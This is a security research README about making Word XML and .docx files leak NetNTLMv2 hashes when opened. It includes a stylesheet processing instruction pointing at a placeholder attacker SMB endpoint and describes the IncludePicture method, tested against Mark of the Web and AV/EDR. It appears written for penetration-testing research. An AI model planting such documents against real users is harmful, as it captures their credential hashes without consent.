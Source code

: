 # NetNTLMv2-and-Office-Docs-Research
digging into using office/Word .xml files and "recent" docx/xlsx/etc. 

Was talking with some friends on discord, and the conversation started with a couple links and seeing whether some combo of these 2 would still work in 2023: https://blog.didierstevens.com/2017/11/13/webdav-traffic-to-malicious-sites/ and https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/. 

It turns out that it does! Creating a Word .XML file (in a similar way as the BoHops link above, File -> Save As -> `Word XML document (*.xml)`) still causes NetNTLMv2 hashes to be leaked upon opening the document, as long as you have the processing instruction `<?mso-application progid="Word.Document"?>` at the top to force the host to associate the file as a Word doc, and the "path" Word should expect to open the style sheet from within the href tag in the stylesheet processing instruction `<?xml-stylesheet type="text/xsl" href="\\ENDPOINT\HERE\word.xsl"?>`. Once the document is opened, no further interaction is needed, the document will automatically try to load the style sheet referenced in the href tag within the xml-stylesheet processing instruction at the top of your Word XML file, which in this case is an SMB endpoint set up using impacket-smbserver (Re-ran all the tests with Responder as well and hashes were picked up there as well). Sending the document via email (so it would gain MOTW), opening the document and hitting "Enable Editing..." button, hashes also successfully hit my smb endpoint.

![image](https://user-images.githubusercontent.com/75406207/230168107-15551eec-b135-4418-9fa6-1800401f0a8f.png)

Going a step further, we wanted to see whether it was possible to replicate some of this with .docx files, but if you've ever pulled apart a .docx file, it is a huge ~~mess~~ collection of xml files. This led me deep into the depths of documentation for OpenXML while simultaneously pulling .docx xml files apart, creating new documents with different styles/features/etc. to see whether I'd be able to get a word document zipped back up into it's original form and still open with the suspect `<xml-stylesheet>` call. 

With the .docx internals being a bit (read: a LOT) more finnicky when trying to inject the same payload idea into a couple of the xml files and "re-compile" them for lack of a better term, I went back to the drawing board to look into already established/"tried and true" methods of manipulating/poisoning office documents, and stumbled across this on HackTricks <https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents#external-image-load>, which I had seen before, but not paid a whole lot of attention to.

Using that IncludePicture method and just populating the URL field with my smb endpoint, I was able get the same behavior as the .XML file tested previously, which was that the NetNTLMv2 hashes are successfully leaked upon opening the document. Then, I sent the same document via email (so it would gain MOTW), opened it and hit the "Enable Editing..." button, and a hash leaked successfully again. Nothing seemed to flag from an AV/EDR standpoint, 

![image](https://user-images.githubusercontent.com/75406207/230168191-1379ddaa-f07f-49de-a488-0931e6c8d577.png)

The tiny, highlighted box under "Test" in the document in the screenshot below is the "image" generated by using the IncludePicture function, shrunk considerably but large enough where it can still be seen when highlighting. 

Given this was a conversation started this morning, I haven't had the time to sit down and figure out how to expand and continue down this rabbit hole, but at a base level seems ripe for assumed breach/internal tests. Configuring .docx files with IncludePicture using the SMB share path is trivial and can easily be abused, however I have a feeling this is going to be more of an "intended functionality."  

I'll also note that the SMB "paths" configured were IPs, not FQDNs. If this ends up being a widely used attack vector and Microsoft attempts to resolve these vulnerabilities with an approach similar to how they "fixed" PrintNightmare, Follina, and most recently CVE-2023-23397, I'd expect this vector to be viable/bypasses to the patch(es) to be found quickly. 
